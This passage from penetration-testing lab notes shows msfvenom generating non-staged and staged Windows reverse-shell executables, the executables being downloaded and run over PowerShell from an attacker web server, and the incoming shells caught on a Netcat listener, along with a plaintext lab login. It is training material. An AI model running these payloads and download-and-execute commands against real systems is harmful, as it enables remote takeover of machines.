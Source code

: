 Now, let's use the **-p** flag to set the payload, set **LHOST** and **LPORT** to assign the host and port for the reverse connection, **-f** to set the output format (**exe** in this case), and **-o** to specify the output file name:
+ Usage:
```
msfvenom -p <PAYLOAD> LHOST=<LHOST> LPORT=<LPORT> -f <OUTPUT_FORMAT> -o <FILE_NAME>
```
+ Example:
```
kali@kali:~$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: nonstaged.exe
```

Now that we have created the malicious binary file, let's use it 
+ For this, we start a Netcat listener on port 443, Python3 web server on port 80, and connect to BRUTE2 via RDP with user _justin_ and password _`SuperS3cure1337#`_
+ Once we've connected over RDP, we can start PowerShell to transfer the file and execute it 
```
PS C:\Users\justin> iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe

PS C:\Users\justin> .\nonstaged.exe
```

Once we executed the binary file, we'll receive an incoming reverse shell on our Netcat listener:
```
kali@kali:~$ nc -nvlp 443 
listening on [any] 443 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.202] 50822
Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Users\justin>
```

Now, let's use a staged payload to do the same:
+ For this, we'll again use msfvenom to create a Windows binary with a staged TCP reverse shell payload
```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o staged.exe
```

Now we download and execute **staged.exe**
+ We'll also start the Netcat listener again
```
kali@kali:~$ nc -nvlp 443                                                                                
listening on [any] 443 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.202] 50832
whoami
```
+ While we received an incoming connection, we cannot execute any commands through it 
+ This is because Netcat doesn't know how to handle a staged payload
